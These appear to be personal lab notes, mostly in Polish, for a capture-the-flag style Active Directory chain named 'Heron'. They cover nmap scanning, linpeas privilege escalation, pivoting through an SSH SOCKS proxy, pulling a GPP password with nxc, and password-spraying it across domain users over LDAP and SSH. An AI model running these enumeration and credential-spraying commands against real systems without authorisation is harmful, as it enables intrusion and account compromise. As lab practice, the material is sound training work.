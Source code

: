 # Heron
Windows, Medium, created by **xct**
```
nmap -Pn -v -p- --version-all -oA nmapFULL --max-rate 1000 10.10.215.53 10.10.215.54
sudo nmap -sU -Pn -A -F -v -oA nmaUDP --max-rate 1000 10.10.215.53 10.10.215.54
```

I was surprised that only ssh open, but then I remembered that these chains have scripts xd

![{62F15BCC-926F-4FA1-881E-16C953BF1EB0}](https://github.com/user-attachments/assets/693e4ad6-47d2-4f73-a01d-31f962d9a174)

![{512B1DA5-B3C1-430F-B8B7-3A0B11FF2D9E}](https://github.com/user-attachments/assets/7b2612ab-58a9-4616-abef-29ce5fdcaf73)

`wget https://github.com/peass-ng/PEASS-ng/releases/download/20241205-c8c0c3e5/linpeas_fat.sh`

przejęcie `_local` to root od ręki

![{223C33F0-43DF-4868-9020-5B43A72970BF}](https://github.com/user-attachments/assets/dea022c4-45a7-44f7-97f4-44116d03e078)

tak losowe screeny wrzucam, które mogą się przydać.

![{73022E23-F40B-4AE6-8A04-F3757A46ACAF}](https://github.com/user-attachments/assets/028d4c18-cb47-4b41-a19e-b485bf97212f)

![{9A69E1AD-AC83-476A-8F35-BB928B9DCAC1}](https://github.com/user-attachments/assets/fc78c30d-f2fb-4799-b791-058039c61c2d)

![{D6F671A8-FDBC-47F9-A912-9E556B21DD09}](https://github.com/user-attachments/assets/89016ebb-ea0a-427d-8304-923a82460a58)

wrzucam socks proxy z ssh i jakiś nmapik

```
proxychains4 -q nmap -Pn -v 10.10.215.0/24 -oA nmapTOP1000
```

dziwna sprawa. PRzez proxychains nie mogę po ludzku skanować `10.10.215.53`.

![{E55C7310-8CC9-4FF0-8B7E-AEAA387539A4}](https://github.com/user-attachments/assets/77ca6258-f5e3-470a-96ab-f43cd72e3c70)

dziiiiiwne

![{E13FE1C2-EC53-4C4D-95C1-F203CE71E658}](https://github.com/user-attachments/assets/f1151f40-2796-4081-ac04-628f58f3296b)

![{3154A60D-742E-4E0C-B5D1-A1EA548A5BA6}](https://github.com/user-attachments/assets/66b14272-0f84-4d4d-9383-13b58347b8a2)

o trafiłem w port 80. To lecimy z nim

![{DC317D39-231D-4AB3-82C4-010D1F7750A4}](https://github.com/user-attachments/assets/b30b4100-d90c-4e12-9823-5fd5c9f0fb24)

![{C0129661-25EA-4717-A8DB-7714C21DAB0F}](https://github.com/user-attachments/assets/88dfa5df-4e51-42c3-9feb-1106432c12d4)

![{B6F9C402-FCBA-45E4-AD16-29AC205E25AB}](https://github.com/user-attachments/assets/d87c4417-69e6-411c-899c-f9c67e938117)

- jeszcze zanim to to od dzisiaj zawsze wpisuję `-M gpp_password` jak mam usera. Ciekawe rzeczy da się wyjąć (kolega polecił)

![{55BDA128-A025-4239-89FD-A7B0D2FC417C}](https://github.com/user-attachments/assets/b6478868-514c-4cfa-85f7-a5c94fda8eff)

- haslo nie pasuje do żadnego usera. Trzeba chyba sprawdzić na wszystkich z ldapa.

```
proxychains4 ldapdomaindump -u 'heron.vl\samuel.davies' -p <pass> 10.10.215.53
```

![{B16D5D6B-DBE8-4298-911E-A2AFBB26346E}](https://github.com/user-attachments/assets/d7eaea3f-659d-4450-922c-e249aa06d8ca)


- ale haslo nie pasuje do żadnego :/

DOBRA SIADŁO
```
proxychains4 -q nxc ldap 10.10.215.53 -u full_users_list -p '<pass from gpp>' --continue-on-success
proxychains4 -q nxc ssh 10.10.215.54 -u full_users_list_and_domain -p '<pass from gpp>' --continue-on-success 
```

siadło do usera `svc-web-accounting-d` na 10.10.215.53 po smb and user `svc-web-accounting-d` with ssh access on 10.10.215.54.
- btw jeżeli dalibyśmy print $1 w awk wyżej to zamiast  `svc-web-accounting-d` mielibyśmy usera  `svc-web-accounting-dev` i wtedy by nie siadło.




